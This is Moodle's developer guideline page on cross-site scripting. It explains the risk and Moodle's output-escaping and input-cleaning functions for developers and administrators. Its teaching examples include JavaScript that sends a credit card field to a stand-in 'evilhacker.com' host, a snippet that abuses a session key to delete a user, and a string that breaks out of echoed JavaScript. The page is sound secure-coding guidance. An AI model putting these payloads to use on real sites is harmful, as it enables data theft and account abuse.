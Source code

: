 ```yaml
---
title: Cross-site scripting
sidebar_position: 4
tags:
  - Coding guidelines
  - Policies
  - Security
---
```


:::note

This page forms part of the [Moodle security guidelines](../security).

:::

## What is the danger?

Normally, web browsers prevent JavaScript from the server from affecting content that comes from another server. For example, suppose that on your Moodle page (`http://mymooodle.com`), you have an iframe displaying an advert from `http://makemerich.com`. Then, the JavaScript code in the advert cannot access anything on your page.

In Moodle, we actually let users type in HTML, then we display that HTML as part of our web site. Therefore, any JavaScript they manage to include will have full access to everything on the page.

Why is that a problem? Well, suppose Evil Hacker manages to get some code like

```javascript
document.write('<img width="1" height="1" ' +
     'src="http://evilhacker.com/savedata.php?creditcard=' +
     document.getElementById('creditcard').value + '" />');
```

on a page where the user types in their credit card number. Actually, that scenario is quite unlikely in Moodle, but there are more plausible scenarios that are possible.

Another problem is that XSS makes it much easier for Evil Hacker get round sesskey protection. For example:

```javascript
document.write('<img width="1" height="1" ' +
     'src="http://example.com/moodle/user/delete.php?id=123&confirm=1&sesskey=' +
     document.getElementById('sesskey').value + '" />');
```

Or even more sophisticated, the JavaScript to do that as a POST request, in a forum where an Administrator would go, would be very bad.

Note that, at least in Internet Explorer, JavaScript can be hidden in CSS style information, as well as in the HTML. Java applets can also be used to execute scripting, as well as the browser's JavaScript engine.

Note also that dangerous content may not only be input into Moodle directly by a user. It may also come, for example, from an external RSS feed.

## How Moodle avoids this problem

The simplest solution to XSS attacks is to **never let the user input rich content** like HTML or upload plugins like Java applets. Unfortunately, with Moodle we want to let our users communicate using rich content. For example, we want students to be able to express themselves by making forum posts in flashing orange text. We want teacher to be able to upload interesting applets for use by their students. Therefore, we have to compromise.

### Escaping output

Moodle divides content that has been input by the user into four categories:

1. **Plain text content**. For example, a student's response to a short answer question.
2. **Labels that are plain text**, except that they main contain multi-lang spans. For example, a course name or section heading.
3. **HTML (or wiki, markdown) content**, that might have been input by anyone. For example, the body of a forum post.
4. **HTML (or wiki, markdown) content**, that could only have been input by a **trusted user**, like a teacher. For example, the body of a web page resource.

Depending on the type of content, you need to use the appropriate function to output it. For example, if you have plain text content, you should use the `s()` function to output it. That will replace any `<` character with `&lt;`. If that is done, there is no way that the input can be interpreted as JavaScript.

### Escaping output 2 - JavaScript

The other place you need to be careful is when you are sending data to JavaScript. For example, if you generate JavaScript in your PHP code like

```php
echo '<script type="text/javascript">';
echo 'alert("' . $userinput . '");';
echo '</script>';
```

and Evil hacker can make `$userinput` equal to something like:

```php
); /* Do something evil. */ (
```

then they can get whatever code they choose to put in the `/* Do something evil. */` space to run within your web page.

The best solution is to not echo JavaScript like this. Instead, follow the [JavaScript guidelines](/docs/guides/javascript), and put your JavaScript in an external file, and communicate with it using `$PAGE->requires->data_for_js` or `$PAGE->requires->js_function_call`. Those two methods properly encode any PHP data to be passed to JavaScript using `json_encode`.

### Cleaning input

The other part of the protection is cleaning up data as it comes in. This is done using the `optional_param` or `required_param` functions. For example, if you say you are expecting an integer as input, by passing `PARAM_INT`, then you will only get an integer back. Once you know that a variable only contains an integer value, you can be sure it does not contain any malicious JavaScript.

However, for very complex input, like HTML, doing the cleaning is very tricky, and the code is likely to handle some complex situations badly. The algorithms will almost certainly be improved in the future, so for complex content, we store the raw input in the database, and only do the cleaning when it is output, using the latest algorithms.

## What you need to do in your code

- Get input values using `optional_param` or `required_param` with an appropriate `PARAM_*` type, to ensure that only data of the type you expect is accepted.
- Alternatively, use a [[lib/formslib.php|moodleforms]], with appropriate `->setType` calls in the form definition.
- Clean or escape content appropriately on output.
  - Use `s()` or `p()` to output plain text content (type 1 above).
  - Use `format_string` to output content with minimal HTML like multi-lang spans (type 2 above).
  - Use `format_text` to output all other content (types 3 and 4 above). How carefully it is cleaned (that is, the difference between type 3 and 4) depends on the `$options->noclean` argument to `format_text`.
- Any place where a use can input content that is output by `format_text`, `$options->noclean`, must be protected by a capability check, and the capability must be marked as `RISK_XSS`.
- When sending data to JavaScript code:
  - Use the `$PAGE->requires->data_for_js` or `$PAGE->requires->js_function_call` methods.
  - In Moodle 1.9 and earlier, escape the data with `addslashes_js` before printing it into the JavaScript code.

:::info

Follow the [[Output functions]] link to get a best understanding of how dynamic data should be sent from Moodle to the browser.

:::

## What you need to do as an administrator

- Do not allow a user to have a capability with `RISK_XSS` unless you trust them.
  - The [Security overview](https://docs.moodle.org//en/Security_overview) report can help you check this.
- From Moodle 3.5 onwards, you can enable setting **Content cleaning everywhere**(`$CFG->forceclean`).

## See also

- [Security](../security)
- [[Coding]]
